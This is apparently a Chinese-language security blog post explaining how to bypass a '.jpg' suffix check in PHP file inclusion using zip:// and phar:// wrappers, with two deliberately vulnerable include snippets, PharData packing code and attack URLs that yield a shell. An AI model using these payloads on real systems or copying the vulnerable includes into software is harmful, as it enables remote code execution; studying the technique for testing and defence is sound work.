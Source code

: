 ```yaml
---
layout: "post"
title: "zip或phar协议包含文件"
tags: [tricks,php]
---
```


这个方法适用于验证包含文件为特定后缀时。
例如以下代码

```php

<?php
$file = $_GET['file'];
if(isset($file) && strtolower(substr($file, -4)) == ".jpg"){
	include($file);
}
?>

<?php
$file = $_GET['file'];
include($file.'.jpg');
?>
```
上面的代码一个验证了后缀是否为jpg，一个是直接添加了jpg后缀，然后才包含。对于现在这种情况，要包含php文件的话的，可以通过截断。但是\x00的截断在php>5.3.4就没用了，而且还要考虑GPC,所以是比较鸡肋的方法。其实我们可以通过zip协议和phar协议来包含文件。

**zip://**
首先我们新建一个zip文件，里面压缩着一个php脚本。


![1.png](/Users/Tomato/Documents/blog_backup/usr/uploads/2015/06/2355213942.png)
然后我们构造zip://php.zip#php.jpg

http://127.0.0.1/file.php?file=zip://php.zip%23php.jpg



![819654707](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-819654707.png)


这样就成功shell了。


**phar://**
首先我们要用phar类打包一个phar标准包

```php
<?php
$p = new PharData(dirname(__FILE__).'/phartest2.zip', 0,'phartest2',Phar::ZIP) ; 
$x=file_get_contents('./php.php');
$p->addFromString('a.jpg', 
$x); 
?>
```
会生成一个zip的压缩文件。然后我们构造

http://127.0.0.1/file.php?file=phar://php.zip/php.jpg

也可以直接shell

其中phar适用范围为php>5.3.0

以下的这种包含方式在这样的情况下是无效的。
include(一个规定的路径+可控点)


